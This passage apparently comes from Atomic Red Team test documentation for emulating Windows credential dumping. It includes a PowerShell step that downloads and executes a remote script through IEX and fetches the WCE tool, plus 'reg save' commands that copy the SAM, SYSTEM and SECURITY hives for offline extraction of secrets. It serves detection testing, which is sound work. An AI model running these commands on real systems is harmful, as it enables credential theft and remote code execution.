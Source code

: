 ##### Check Prereq Commands:

```powershell
if (Test-Path #{wce_exe}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
$parentpath = Split-Path "#{wce_exe}"; $zippath = "$parentpath\wce.zip"
IEX(IWR "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-WebRequestVerifyHash.ps1")
if(Invoke-WebRequestVerifyHash "#{wce_url}" "$zippath" #{wce_zip_hash}){
  Expand-Archive $zippath $parentpath\wce -Force
  Move-Item $parentpath\wce\wce.exe "#{wce_exe}"
  Remove-Item $zippath, $parentpath\wce -Recurse
}
```

<br/>
<br/>

## Atomic Test #4 - Registry dump of SAM, creds, and secrets

Local SAM (SAM & System), cached credentials (System & Security) and LSA secrets (System & Security) can be enumerated
via three registry keys. Then processed locally using https://github.com/Neohapsis/creddump7

Upon successful execution of this test, you will find three files named, sam, system and security in the %temp%
directory.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
reg save HKLM\sam %temp%\sam
reg save HKLM\system %temp%\system
reg save HKLM\security %temp%\security
```

#### Cleanup Commands:

```cmd
del %temp%\sam >nul 2> nul
del %temp%\system >nul 2> nul
del %temp%\security >nul 2> nul
```

<br/>
<br/>

## Atomic Test #5 - Dump LSASS.exe Memory using ProcDump
